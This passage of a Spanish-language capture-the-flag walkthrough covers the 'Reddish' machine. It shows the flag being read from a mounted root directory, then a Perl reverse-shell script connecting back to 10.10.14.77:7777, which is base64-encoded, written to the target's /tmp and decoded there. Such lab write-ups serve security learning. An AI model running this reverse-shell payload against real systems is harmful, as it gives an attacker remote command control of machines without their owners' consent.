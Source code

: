 ### De esta manera ya tenemos nuestra segunda flag

```abap
root@backup:/mnt# cd Montura
cd Montura
root@backup:/mnt/Montura# cd root	
cd root
root@backup:/mnt/Montura/root# ls -la
ls -la
total 32
drwx------  5 root root 4096 Jul 16  2018 .
drwxr-xr-x 23 root root 4096 Apr  9 12:09 ..
lrwxrwxrwx  1 root root    9 Jul 16  2018 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Jul 15  2018 .cache
drwxr-xr-x  2 root root 4096 Jul 15  2018 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jul 15  2018 .ssh
-r--------  1 root root   33 Apr 23  2018 root.txt
root@backup:/mnt/Montura/root# cat root.txt

```

### Ahora como ya estamos en reddish vamos a decirle que nos realice una reverse shell a nuestra máquina y para eso modificamos nuestra [shell.sh](http://shell.sh) con la ip de nuestra máquina y un puerto que queramos ocupar

```abap
─[✗]─[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #cat shell.sh 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: shell.sh
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ 
   3   │ perl -e 'use Socket;$i="10.10.14.77";$p=7777;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"
       │ >&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

### Dentro de la Montura en el directorio tmp nos creamos un archivo que llamamos shell.sh

```abap
root@backup:/mnt/Montura/tmp# ls
ls
systemd-private-db1be127e4f84994a383c16671fe2e25-systemd-timesyncd.service-PKJ4Bk
vmware-root
root@backup:/mnt/Montura/tmp# echo "IyEvYmluL2Jhc2gKCnBlcmwgLWUgJ3VzZSBTb2NrZXQ7JGk9IjEwLjEwLjE0Ljc3IjskcD03Nzc3O3NvY2tldChTLFBGX0lORVQsU09DS19TVFJFQU0sZ2V0cHJvdG9ieW5hbWUoInRjcCIpKTtpZihjb25uZWN0KFMsc29ja2FkZHJfaW4oJHAsaW5ldF9hdG9uKCRpKSkpKXtvcGVuKFNURElOLCI+JlMiKTtvcGVuKFNURE9VVCwiPiZTIik7b3BlbihTVERFUlIsIj4mUyIpO2V4ZWMoIi9iaW4vYmFzaCAtaSIpO307Jwo=" | base64 -d > shell.sh
<yIpO2V4ZWMoIi9iaW4vYmFzaCAtaSIpO307Jwo=" | base64 -d > shell.sh             
root@backup:/mnt/Montura/tmp# cat shell.sh
cat shell.sh
#!/bin/bash

perl -e 'use Socket;$i="10.10.14.77";$p=7777;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```